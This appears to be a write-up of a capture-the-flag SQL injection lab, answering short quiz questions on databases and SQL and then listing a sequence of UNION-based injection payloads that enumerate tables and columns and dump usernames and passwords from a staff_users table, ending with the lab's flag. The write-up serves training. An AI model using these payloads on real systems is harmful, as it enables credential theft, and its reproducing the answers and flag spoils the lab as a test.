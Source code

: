 ##   Answer the questions below

What is the acronym for the software that controls a database? DBMS (Database Management Systems)

What is the name of the grid-like structure which holds the data? Table

* * * 

## Task 3 - What is SQL? 

##   Answer the questions below

What SQL statement is used to retrieve data? select

What SQL clause can be used to retrieve data from multiple tables? union

What SQL statement is used to add data? insert

* * * 

## Task 4 - What is SQL Injection? 

##   Answer the questions below

What character signifies the end of an SQL query? ``;``

* * *

## Task 5 - In-Band SQL

What is the flag after completing level 1? 

Finding this is a SQL query by getting an error message with ``` we can run the following commands to get the flag:

1. ``1 UNION SELECT 1``

2. ``1 UNION SELECT 1,2``

3. ``1 UNION SELECT 1,2,3``

4. ``0 UNION SELECT 1,2,3``

5. ``0 UNION SELECT 1,2,database()``

6. ``0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'``

7. ``0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'``

8. ``0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users``

THM{SQL_INJECTION_3840}

* * * 
